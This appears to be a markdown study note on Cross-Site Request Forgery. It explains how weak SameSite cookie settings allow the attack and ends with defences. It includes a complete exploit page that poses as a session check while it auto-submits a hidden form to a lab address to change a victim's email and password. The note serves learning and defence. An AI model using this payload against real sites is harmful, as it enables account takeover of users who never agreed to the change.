


# 06.csrf

12/05/25

## Recall

- What is CSRF (Cross-Site Request Forgery)?
- How does it abuse a victim’s authenticated session?
- What conditions make CSRF possible?
- What are common targets in CSRF attacks?

## Notes

### What it is

**CSRF (Cross-Site Request Forgery)** is a web vulnerability that allows an attacker to perform unauthorized actions on behalf of an authenticated user by **tricking the user’s browser into sending a forged request** to the target application. Since the browser automatically includes session cookies with requests, the forged request is processed as if it came from the legitimate user.

CSRF attacks typically rely on poor session cookie configurations, such as missing or misused `SameSite` attributes, and require **social engineering** to lure the victim into executing the malicious request — often by hosting the payload on a website controlled by the attacker.

### How to identify it

 identify a CSRF vulnerability, the first step is to inspect how the application handles session cookies. If the `SameSite` attribute is missing or set to ****`None`, the browser will send the session cookie even on cross-site requests — which makes the attack possible.



In this example, the session cookie has `SameSite=None`, which means it can be sent along with cross-origin requests, even from an attacker-controlled domain.

### How to exploit it

After confirming the vulnerability, the attacker looks for sensitive actions that can be triggered via authenticated requests — such as **changing a user’s password** or **modifying profile settings**.

Once the endpoint and request format are understood:



…the attacker can craft a malicious HTML page that silently sends the same request when a victim loads the page:

```bash
<!DOCTYPE html>
<html lang="en">
	<head>  
		<meta charset="UTF-8">  
		<title>Loading...</title>  
		<style>    
			body {      
				font-family: sans-serif;      
				background-color: #f4f4f4;      
				text-align: center;      
				padding-top: 100px;      
				color: #444;    
			}    
			.loader {      
				font-size: 1.2rem;    
			}  
		</style>
	</head>	
	<body>  
		<h1>Connecting to secure server...</h1>  
		<p class="loader">Please wait while we verify your session.</p>
    <form action="http://10.10.0.4/index.php?action=update" method="POST" id="csrf-form">      
			<input type="hidden" name="email" value="guest@guest.com">      
		  <input type="hidden" name="password" value="123">    
	  </form>
	  
  <script>    
	  document.getElementById('csrf-form').submit();  
	 </script>
	</body>
</html>
```

By hosting this page and luring the victim into visiting it, the attacker can silently force a password change request using the victim’s session — effectively taking control of their account.

## Summary

CSRF is a vulnerability that allows an attacker to perform unauthorized actions on behalf of an authenticated user by forging a request and leveraging the browser’s automatic behavior of including session cookies. The attack relies on poor cookie configurations (especially the lack of a proper `SameSite` policy) and social engineering to trigger the action. When successful, the attacker can change account settings, transfer funds, or perform other critical operations without the victim's awareness. Preventing CSRF involves enforcing strict SameSite policies, validating request origins, and using anti-CSRF tokens for sensitive operations.